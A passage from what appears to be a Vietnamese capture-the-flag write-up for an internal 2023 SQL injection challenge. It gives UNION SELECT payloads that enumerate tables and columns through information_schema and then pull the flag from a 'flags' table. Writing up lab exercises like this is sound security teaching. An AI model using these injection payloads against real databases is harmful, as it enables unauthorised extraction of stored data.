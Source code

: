 Dò tên bảng:

```sql
1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'sql_level2'
```

Dò tên cột:

```sql
1 UNION SELECT NULL, column_name from information_schema.columns where table_schema='sql_level2' and table_name='flags'
```

(Có hint tên bảng là: flags và tên cột là **flag** 😉😉)

Dùng payload: `1 UNION SELECT flag, flag from flags` sẽ lấy được flag.

![Alt text](writeup-vsl-ctf-internal-2023/image43.png)
